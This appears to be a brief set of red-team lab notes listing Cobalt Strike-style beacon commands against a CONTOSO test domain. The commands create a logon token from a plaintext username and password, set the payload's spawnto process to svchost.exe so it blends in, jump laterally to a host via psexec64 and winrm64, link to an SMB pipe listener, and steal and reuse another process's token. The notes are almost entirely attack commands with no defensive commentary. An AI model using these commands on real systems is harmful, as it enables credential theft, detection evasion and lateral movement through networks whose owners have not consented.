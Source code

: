 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 DUB-WEB-1 smb

jump winrm64 DUB-WEB-1 smb
```

---

```powershell
link smb 192.168.110.52 dotnet-diagnostic-1337
```

```powershell
token-store steal 3184
token-store use 0 
```
